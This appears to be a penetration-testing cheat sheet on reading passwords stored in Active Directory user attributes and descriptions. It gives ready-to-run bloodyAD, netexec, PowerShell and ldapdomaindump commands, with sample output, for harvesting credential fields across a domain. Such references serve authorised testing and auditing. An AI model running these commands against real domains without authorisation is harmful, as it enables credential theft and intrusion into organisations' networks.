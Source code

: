 # Password - AD User Comment

There are 3-4 fields that seem to be common in most Active Directory schemas: `UserPassword`, `UnixUserPassword`, `unicodePwd` and `msSFU30Password`.

* Windows/Linux command
    ```ps1
    bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get search --filter '(|(userPassword=*)(unixUserPassword=*)(unicodePassword=*)(description=*))' --attr userPassword,unixUserPassword,unicodePwd,description
    ```

* Password in User Description
    ```powershell
    netexec ldap domain.lab -u 'username' -p 'password' -M user-desc
    netexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 -M get-desc-users
    GET-DESC... 10.0.2.11       389    dc01    [+] Found following users: 
    GET-DESC... 10.0.2.11       389    dc01    User: Guest description: Built-in account for guest access to the computer/domain
    GET-DESC... 10.0.2.11       389    dc01    User: krbtgt description: Key Distribution Center Service Account
    ```

* Get `unixUserPassword` attribute from all users in ldap
    ```ps1
    nxc ldap 10.10.10.10 -u user -p pass -M get-unixUserPassword -M getUserPassword
    ```

* Native Powershell command
    ```powershell
    Get-WmiObject -Class Win32_UserAccount -Filter "Domain='COMPANYDOMAIN' AND Disabled='False'" | Select Name, Domain, Status, LocalAccount, AccountType, Lockout, PasswordRequired,PasswordChangeable, Description, SID
    ```

* Dump the Active Directory and `grep` the content.
    ```powershell
    ldapdomaindump -u 'DOMAIN\john' -p MyP@ssW0rd 10.10.10.10 -o ~/Documents/AD_DUMP/
    ```